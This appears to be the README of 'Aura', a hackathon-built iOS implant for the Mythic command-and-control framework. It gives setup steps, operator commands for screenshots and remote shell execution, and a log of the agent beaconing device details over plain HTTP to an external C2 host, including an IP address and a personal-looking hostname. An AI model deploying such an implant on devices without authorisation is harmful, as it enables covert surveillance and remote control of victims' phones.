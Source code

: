 # [DRAFT] Aura iOS Agent


## Description
Aura is an iOS payload designed to interact with a Mythic C2 (command and control) server and was developed over the [2024 Microsoft Global Hackathon](https://microsoft.sharepoint.com/sites/MicrosoftGlobalHackathon2024). To fit within the time constraint of one week:
* The agent communicates over plain text HTTP channels
* Mythic will manage and initate the agent builds per-usual, but the actual compilation and configuration of the agent will take place remotely on macOS w/iOS SDK outside of Docker.
* A limited number of commands will be implemented.

### Requirements
* iOS 12


## Warnings
* The Aura agent currently only supports plain-text HTTP comms.
* This is a development build only requiring a macOS build server for iOS compilation.
    * Mythic usually requires Agent code be hosted in Docker containers.


## Usage
1. Edit the Mythic environement file: `Mythic/.env` to:
    1. `MYTHIC_SERVER_BIND_LOCALHOST_ONLY="false"`
    2. `RABBITMQ_BIND_LOCALHOST_ONLY="false”`
    3. Grab the password for RabbitMQ
2. Start [Mythic C2](https://github.com/its-a-feature/Mythic) (you'll need to have this already)
3. Clone this repository
4. Edit `Payload_Type/rabbitmq_config.json` with the values from the Mythic server
5. Run `python Payload_Type/main.py` 
6. 🥳 In the Mythic UI you can now build and install Aura!!

## Operator commands
| Description | Implemented Command |
| - | - |
| Take a screenshot | `take_screenshot` |
| Execute a shell command | `shell_execution [args]` |

## Execution example
```txt
2024-09-20 18:13:33.914 aura[2322:270194] 👋 Hello from the Aura iOS agent!
2024-09-20 18:13:33.916 aura[2322:270194] [DEBUG] Check-in URL: http://ec2-54-245-60-126.us-west-2.compute.amazonaws.com:80/agent_message
2024-09-20 18:13:34.027 aura[2322:270194] {
    action = checkin;
    architecture = arm64;
    domain = local;
    "external_ip" = "136.24.173.189";
    host = "brandontonsipad.localdomain";
    "integrity_level" = 2;
    ips =     (
        "192.168.0.18"
    );
    os = "iOS 12.5.7";
    pid = 2322;
    "process_name" = aura;
    user = mobile;
    uuid = "b355bc11-0c78-41ec-b3b7-7220561137fa";
}
```